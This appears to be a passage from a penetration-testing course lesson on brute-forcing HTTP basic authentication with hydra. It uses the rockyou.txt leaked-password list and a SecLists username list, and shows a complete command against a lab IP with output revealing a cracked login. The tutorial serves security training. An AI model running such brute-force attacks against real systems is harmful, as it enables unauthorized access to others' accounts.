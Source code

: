 # Username Brute Force

We now know the basic usage of `hydra`, so let us try another example of attacking HTTP basic auth by using separate wordlists for usernames and passwords.

* * *

## Wordlists

One of the most commonly used password wordlists is `rockyou.txt`, which has over 14 million unique passwords, sorted by how common they are, collected from online leaked databases of passwords and usernames. Basically, unless a password is truly unique, this wordlist will likely contain it. `Rockyou.txt` already exists in our Pwnbox. If we were using `hydra` on a local VM, we could download this wordlist from the [Hashcat GitHub Repository](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). We can find it in the following directory:

```shell
locate rockyou.txt

/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

```

As for our usernames wordlist, we will utilize the following wordlist from `SecLists`:

```shell
locate names.txt

/opt/useful/SecLists/Usernames/Names/names.txt

```

This is a short list of common usernames that may be found on any server.

* * *

## Username/Password Attack

`Hydra` requires at least 3 specific flags if the credentials are in one single list to perform a brute force attack against a web service:

1. `Credentials`
2. `Target Host`
3. `Target Path`

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

Tip: We will add the "-u" flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.

```shell
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

[DATA] max 16 tasks per 1 server, overall 16 tasks, 243854766 login tries (l:17/p:14344398), ~15240923 tries per task
[DATA] attacking http-get://178.35.49.134:32901/
[STATUS] 9105.00 tries/min, 9105 tries in 00:01h, 243845661 to do in 446:22h, 16 active

<...SNIP...>
[32901][http-get] host: 178.35.49.134   login: thomas   password: thomas1

[STATUS] attack finished for SERVER_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```